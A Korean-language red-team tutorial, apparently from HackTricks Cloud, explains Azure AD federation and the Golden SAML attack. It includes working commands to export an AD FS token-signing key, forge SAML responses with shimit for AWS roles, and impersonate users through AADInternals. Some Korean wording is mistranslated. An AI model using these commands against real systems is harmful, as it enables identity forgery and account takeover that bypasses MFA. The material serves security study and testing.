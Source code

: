 # Az - 연맹

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 PDF로 HackTricks를 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구입하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 요령을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소를 확인하세요.

</details>

## 기본 정보

[문서에서:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**연맹(Federation)**은 **신뢰를 확립한 도메인들의 모음**입니다. 신뢰 수준은 다양할 수 있지만 일반적으로 **인증**을 포함하며 거의 항상 **인가**를 포함합니다. 전형적인 연맹은 **공유 액세스**를 위해 **신뢰를 확립한 여러 조직**을 포함할 수 있습니다.

온프레미스 환경을 **Azure AD와 연맹**하고 이 연맹을 인증 및 권한 부여에 사용할 수 있습니다. 이 로그인 방법은 모든 사용자 **인증이 온프레미스에서 발생**함을 보장합니다. 이 방법을 사용하면 관리자가 더 엄격한 수준의 액세스 제어를 구현할 수 있습니다. **AD FS** 및 PingFederate와의 연맹이 가능합니다.

<figure><img src="../../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

기본적으로 연맹에서 모든 **인증**은 **온프레미스** 환경에서 발생하며 사용자는 신뢰하는 모든 환경에서 SSO를 경험합니다. 따라서 사용자는 **온프레미 자격 증명**을 사용하여 **클라우드** 응용 프로그램에 액세스할 수 있습니다.

**보안 주장 표시 언어(SAML)**은 제공자 간에 모든 인증 및 권한 부여 **정보를 교환**하는 데 사용됩니다.

어떤 연맹 설정에서는 세 가지 당사자가 있습니다:

* 사용자 또는 클라이언트
* 신원 제공자(IdP)
* 서비스 제공자(SP)

(이미지 출처: https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<figure><img src="../../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

1. 먼저 사용자가 응용 프로그램(서비스 제공자 또는 SP, 예: AWS 콘솔 또는 vSphere 웹 클라이언트)에 액세스합니다. 특정 구현에 따라 클라이언트를 직접 IdP(신원 제공자)로 이동시켜 이 단계를 생략할 수 있습니다.
2. 그런 다음 SP는 사용자 인증을 위해 적절한 IdP(예: AD FS, Okta)를 식별합니다. 그런 다음 SP는 SAML(Security Assertion Markup Language) AuthnRequest를 작성하고 클라이언트를 선택한 IdP로 다시 라우팅합니다.
3. IdP가 사용자를 인증합니다. 인증 후 IdP는 SAMLResponse를 작성하고 사용자를 통해 SP로 전달합니다.
4. 마지막으로 SP는 SAMLResponse를 평가합니다. IdP와의 신뢰 관계를 나타내는 성공적인 유효성 검사가 있으면 사용자에게 액세스 권한이 부여됩니다. 이로써 로그인 프로세스가 완료되어 사용자가 서비스를 활용할 수 있게 됩니다.

**SAML 인증 및 일반적인 공격에 대해 자세히 알아보려면:**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## Pivoting

* AD FS는 주장 기반 신원 모델입니다.
* "..주장은 사용자에 대해 만들어진 주장(예: 이름, 신원, 그룹)으로, 인터넷 어디에서든 주장 기반 애플리케이션에 액세스 권한을 부여하는 데 주로 사용됩니다."
* 사용자의 주장은 SAML 토큰 내에 작성되고 IdP에 의해 기밀성을 제공하기 위해 서명됩니다.
* 사용자는 ImmutableID에 의해 식별됩니다. 이는 전역적으로 고유하며 Azure AD에 저장됩니다.
* ImmutableID는 사용자의 GUID에서 파생될 수 있습니다.
* 자세한 정보: [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Golden SAML 공격:**

* ADFS에서 SAML Response는 토큰 서명 인증서에 의해 서명됩니다.
* 인증서가 Compromise되면 Azure AD에 동기화된 **모든 사용자로 인증**할 수 있습니다!
* PTA 남용과 마찬가지로 사용자의 비밀번호 변경이나 MFA는 영향을 미치지 않습니다. 왜냐하면 인증 응답을 위조하기 때문입니다.
* 인증서는 DA 권한으로 AD FS 서버에서 추출한 다음 인터넷에 연결된 장치에서 사용할 수 있습니다.
* 자세한 정보: [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

**신원 제공자(IdP)**가 사용자 로그인을 승인하기 위해 **SAMLResponse**를 생성하는 과정이 중요합니다. IdP의 특정 구현에 따라 **응답**은 **IdP의 개인 키**를 사용하여 **서명** 또는 **암호화**될 수 있습니다. 이 절차는 SP가 SAMLResponse의 신뢰성을 확인하여 신뢰할 수 있는 IdP에서 발급되었음을 보장합니다.

이는 [골든 티켓 공격](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket)과 유사하며, 사용자의 신원과 권한을 인증하는 키(KRBTGT의 경우 골든 티켓, 골든 SAML의 경우 토큰 서명 개인 키)를 조작하여 인증 객체(TGT 또는 SAMLResponse)를 위조할 수 있습니다. 이를 통해 어떤 사용자든 흉내를 내어 SP에 무단 액세스할 수 있습니다.

골든 SAML은 다음과 같은 이점을 제공합니다:

* **원격으로 생성**될 수 있으며 해당 도메인이나 연맹의 일부가 되어야 할 필요가 없습니다.
* **이중 인증(2FA)**이 활성화된 상태에서도 효과적입니다.
* 토큰 서명 **개인 키가 자동으로 갱신되지 않습니다**.
* 사용자의 비밀번호를 변경해도 이미 생성된 SAML을 무효화하지 않습니다.

#### AWS + AD FS + Golden SAML

[Active Directory Federation Services (AD FS)](https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402\(v=msdn.10\))는 신뢰하는 비즈니스 파트너(연맹) 간에 **신원 정보를 안전하게 교환**하는 데 도움이 되는 Microsoft 서비스입니다. 이는 도메인 서비스가 연맹 내에서 다른 서비스 제공자와 사용자 신원을 공유할 수 있도록 합니다.

AWS가 연맹 내의 침해된 도메인을 신뢰하는 경우, 이 취약점을 활용하여 **AWS 환경에서 어떤 권한이든 획득**할 수 있습니다. 이 공격에는 **SAML 객체에 서명하는 데 사용된 개인 키**가 필요하며, 이는 골든 티켓 공격에서 KRBTGT가 필요한 것과 유사합니다. AD FS 사용자 계정에 액세스하면 이 개인 키를 얻을 수 있습니다.

골든 SAML 공격을 실행하기 위한 요구 사항은 다음과 같습니다:

* **토큰 서명 개인 키**
* **IdP 공개 인증서**
* **IdP 이름**
* **역할 이름(가정할 역할)**
* 도메인\사용자 이름
* AWS에서의 역할 세션 이름
* Amazon 계정 ID

_굵게 표시된 항목만 필수입니다. 나머지는 원하는 대로 작성할 수 있습니다._

**개인 키**를 획들하기 위해서는 **AD FS 사용자 계정**에 액세스해야 합니다. 거기서 [mimikatz](https://github.com/gentilkiwi/mimikatz)와 같은 도구를 사용하여 개인 키를 **개인 저장소에서 내보낼** 수 있습니다. 다른 필요한 정보를 수집하기 위해 Microsoft.Adfs.Powershell 스냅인을 사용하여 다음과 같이 로그인된 상태로 ADFS 사용자로 로그인해야 합니다:
```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
모든 정보를 갖고 있으면 [**shimit**](https://github.com/cyberark/shimit)를 사용하여 피해자로 위장할 수 있는 유효한 SAMLResponse를 잊을 수 있습니다:**
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

### 온프레미스 -> 클라우드
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
클라우드 전용 사용자의 ImmutableID를 생성하고 그들을 표절하는 것도 가능합니다.
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## 참고 자료

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 다운로드하고 싶다면** [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 요령을 공유**하세요.

</details>
